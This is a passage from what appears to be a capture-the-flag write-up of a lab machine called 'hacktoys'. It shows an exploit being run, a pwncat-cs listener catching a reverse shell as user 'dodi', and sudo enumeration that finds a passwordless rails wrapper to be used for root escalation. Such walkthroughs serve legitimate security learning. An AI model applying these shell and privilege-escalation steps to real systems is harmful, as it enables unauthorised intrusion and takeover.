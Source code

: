 - Third step: Run the exploit and pray:
```bash
chmod +x  ./exploit.sh
./exploit.sh
```
 
Before running the exploit i started a listener on my local machine:
```bash
pwncat-cs -lp 443
```

And got the connection!!

![dodi shell](./pics/dodi_shell.png)

Now that we are dodi, we can try to do some manual enumeration to privesc to root user.

The first command i usually run is `sudo -l`, this time i got lucky:
```bash
Matching Defaults entries for dodi on hacktoys:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User dodi may run the following commands on hacktoys:
    (ALL : ALL) NOPASSWD: /usr/local/bin/rvm_rails.sh
```

In fact, the dodi user can run [rails](https://rubyonrails.org/) as root without using the password.

# User root

Since rails is a Ruby framework, we can also run system commands.

To understand how, i simply run the binary and checked for an help section.
```bash
sudo /usr/local/bin/rvm_rails.sh
```
From the output i saw something very interesting:
```bash
Usage:
  rails COMMAND [options]

You must specify a command:

  new          Create a new Rails application. "rails new my_app" creates a
               new application called MyApp in "./my_app"
  plugin new   Create a new Rails railtie or engine

All commands can be run with -h (or --help) for more information.

Inside a Rails application directory, some common commands are:

  console      Start the Rails console
  server       Start the Rails server
  test         Run tests except system tests
```
We can start a Ruby Rails console as root!
